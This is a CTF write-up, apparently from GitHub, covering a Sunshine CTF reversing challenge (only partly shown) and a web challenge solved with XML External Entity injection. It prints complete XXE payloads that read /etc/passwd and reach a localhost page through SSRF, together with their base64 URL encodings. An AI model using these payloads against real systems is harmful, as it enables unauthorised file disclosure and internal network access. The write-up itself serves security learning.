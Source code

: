 # Sunshine CTF

## Challenge #1: Patches Punches (reversing)

This challenge was a reversing challenge. The hint presented was: 

```
That moment when you go for a body slam and you realize you *jump* too far. Adjust your aim, and you'll crush this challenge!
```

So immediately, I knew that the challenge has something to do with jumps. The first step I took was executing the binary. The program outputed a single line with no means of input.

```bash
$ ./patches
$ Woah there! you jumped over the flag.
```

Upon openning the binary in Binary Ninja, I inspected the code initally to find where the program prints its flag and at what point it branches away from normal execution and prints the previous output. The following portion of the assembly 

```x86
00000534  05a41a0000         add     eax, 0x1aa4  {_GLOBAL_OFFSET_TABLE_}
00000539  c745f001000000     mov     dword [ebp-0x10 {var_18}], 0x1
00000540  837df000           cmp     dword [ebp-0x10 {var_18}], 0x0
00000544  755d               jne     0x5a3  {0x1}
```

## Challenge #2: Wrestler Name Generator (web)

This challenge presented a website which, upon entering the first and last name and choosing a weapon of choice, would generate a wrestler name. The landing page looks like this:
tput.
![Screenshot](/ctf/images/pic1.png?raw=true)

**Screenshot of the main landing page**

![Screenshot](/ctf/images/pic2.png?raw=true)

**Screenshot of the result page**

The first step I took was to look at the page source, and I found the javascript at the bottom of the page (included below). I noticed that the main purpose of the JS is to pass the entered first and last name as an XML object, encoded as base-64 and made safe for URL as a GET parameter to the page /generate.php?input=XMLSTRING.

```javascript
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
```

Similarly, examining the source code of the result page (second screenshot) yielded this interesting comment: 

```
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
```

Immediately, I thought about exploiting the common XXE (XML External Entity) vulnerability. Rather than entering the XML exploit into the input element of the website, I tried passing the XML string drectly into the URL `http://ng.sunshinectf.org/generate.php?input=[XML]`.

The XML object format was this:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
  <firstName>firstName</firstName>
  <lastName>lastName</lastName>
</input>
```

Encoded into a URL safe base-64 string, this XML object became this: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BZmlyc3ROYW1lPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPmxhc3ROYW1lPC9sYXN0TmFtZT4KPC9pbnB1dD4%3D` passing that string to the generate.php page as the input parameter successfully rendered the page.

I then tried to pass an XML entity exploit to see if it would yield a result. So, I tried accessing `/etc/passwd`. I used the following XML code:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Which encoded and made URL safe yielded the string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPCFET0NUWtionVBFIGVybncgWyA8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiID4gXT4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT4KPC9pbnB1dD4%3D`. This string, entered into the URL parameter yielded the following result page.

![Screenshot](/ctf/images/pic4.png?raw=true)

This is promising! It shows the contents of `/etc/passwd`. So let;s try to figure out how to get the actual flag. I thought that it might have to do with the aoffrementioned comment on the /generate.php page (that the page needs to be accessed from the webserver to see the secret Hacker Name). So I tried to use the XML function to access a remote host's page by replacing `file:///etc/passwd` with `http://localhost/generate.php`. The final XML string passed was:


```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "http://localhost/generate.php" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Whhich was translated into this string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZXJudyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImh0dHA6Ly9sb2NhbGhvc3QvZ2VuZXJhdGUucGhwIiA%2BIF0%2BPGlucHV0PjxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT48L2lucHV0Pg%3D%3D`, which passed to the /generate.php page yielded the flag:

![Screenshot](/ctf/images/pic5.png?raw=true)
